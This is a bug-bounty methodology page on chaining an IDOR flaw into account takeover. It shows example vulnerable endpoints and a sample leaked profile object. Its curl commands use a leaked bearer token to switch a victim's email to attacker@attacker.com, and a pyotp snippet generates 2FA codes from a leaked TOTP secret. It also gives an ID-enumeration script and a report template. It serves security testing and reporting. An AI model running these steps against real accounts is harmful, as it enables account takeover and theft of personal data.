

> Source: https://bugbounty.info/Chains/IDOR-to-ATO

# IDOR to PII Leak to Account Takeover

## Why This Chain Works

IDOR gets reported as a medium because the triager sees "you can read another user's profile." What they're not thinking about is what's in that profile. If the leaked object contains an email address, phone number, security question answer, API key, or password reset token, you don't have a data leak, you have a pre-ATO condition. The chain closes when you use that data to authenticate as the victim.

Related: [IDOR Patterns](../Attack-Surface/Web/Authorization/IDOR), [Password Reset Flows](../Attack-Surface/Web/Authentication/Password-Reset), [Chain Thinking](../Methodology/Chain-Thinking)

---

## Attack Flow



---

## Step-by-Step

### 1. Find the IDOR

Look for user IDs, UUIDs, or account numbers in API responses and request parameters. Common endpoints:

```http
GET /api/users/12345
GET /api/profile?id=12345
GET /api/account/settings/12345
GET /api/orders/12345 (may contain user details)
GET /api/messages/12345/thread
```

Create two accounts. Access account A's objects using account B's session. If you get data, you have an IDOR.

### 2. Enumerate What the Object Returns

Don't just confirm the IDOR exists and stop. Read every field in the response. Developers often include way more than the frontend actually displays. Use Burp's JSON beautifier or pipe it through `jq`.

Fields worth looking for:

```json
{
  "id": 12345,
  "username": "victim",
  "email": "victim@email.com",
  "phone": "+15551234567",
  "security_question": "What was your first pet's name?",
  "security_answer": "fluffy",
  "api_key": "sk-live-abc123...",
  "reset_token": "eyJ...",
  "backup_email": "victim_backup@email.com",
  "totp_secret": "JBSWY3DPEHPK3PXP",
  "last_login_ip": "...",
  "internal_notes": "password hint: birthday year"
}
```

Every one of those fields is a different ATO path.

### 3. ATO via Password Reset + Leaked Email/Phone

If you have the victim's email from the IDOR:

1. Trigger a password reset for that email.
2. If the reset requires SMS verification and you have their phone from the IDOR: some flows will send the code to the phone but let you input it on the web, with no additional auth required.
3. If the reset has security questions and you have the answers from the IDOR: answer them and set a new password.

### 4. ATO via Leaked API Key

If the response contains an API key or bearer token:

```bash
curl -H "Authorization: Bearer LEAKED_TOKEN" https://api.target.com/v1/account/me
# Confirms identity
 
curl -H "Authorization: Bearer LEAKED_TOKEN" \
  -X POST https://api.target.com/v1/account/email \
  -d '{"email":"attacker@attacker.com"}'
# Change email to attacker-controlled address, then use standard password reset
```

### 5. ATO via Leaked Reset Token

Some apps return or store a pending reset token in the user object. If you see a `reset_token` or `verification_token` field:

```http
GET https://target.com/reset-password?token=LEAKED_TOKEN
```

You may land directly on the password reset form. Set a new password. Done.

### 6. ATO via Leaked TOTP Secret

If the IDOR exposes a TOTP secret (base32 string):

```python
import pyotp
totp = pyotp.TOTP("JBSWY3DPEHPK3PXP")
print(totp.now())  # Current 6-digit code
```

Use this code to bypass 2FA. Combine with any other credential you have (or a password reset) to complete the login.

---

## Mass Enumeration

Once you've found an IDOR that leaks useful data, it's often sequential or predictable. I don't mass-enumerate in PoC, but I do verify the range by checking a few IDs above and below mine to confirm scope. For the report, showing two victim accounts is enough to prove mass impact.

```python
# Demonstrate range in report only, don't dump the whole DB
import requests
 
for uid in range(my_id - 2, my_id + 3):
    r = requests.get(f'https://api.target.com/users/{uid}',
                     headers={'Authorization': 'Bearer MY_SESSION'})
    print(uid, r.json().get('email', 'no email'))
```

---

## Common IDOR + ATO Chains Table

| Leaked Field | ATO Method |
| --- | --- |
| Email address | Password reset via email |
| Phone number | SMS-based password reset or 2FA bypass |
| Security question answer | Challenge-response reset flow |
| API key / bearer token | Direct API auth as victim |
| Pending reset token | Direct URL-based password reset |
| TOTP secret | Generate valid 2FA codes |
| Backup email | Account recovery via backup channel |
| Password hash (weak) | Offline crack, then login |

---

## PoC Template for Report

```text
Account A (attacker): uid=99999, session token = Bearer AAA
Account B (victim): uid=99998
 
Request:
GET /api/v2/users/99998/profile HTTP/1.1
Authorization: Bearer AAA
 
Response includes:
- email: victim@victim.com
- security_answer: "fluffy"
 
Using victim@victim.com, triggered password reset at /forgot-password.
Selected "security question" recovery method.
Entered "fluffy" as the answer.
Reset password to "Attacker123!".
Logged in as victim@victim.com with new password.
Screenshot of victim's account dashboard attached.
```

---

## Reporting Notes

Don't submit the IDOR and the ATO as separate reports. Submit one report that starts with the IDOR and ends with a logged-in session as the victim. The severity is the ATO severity. If you can't fully automate the ATO step, still include the path: "leaked field X enables Y which allows Z." Triagers close IDOR-only reports all the time. IDOR plus a working login they can reproduce is a critical.
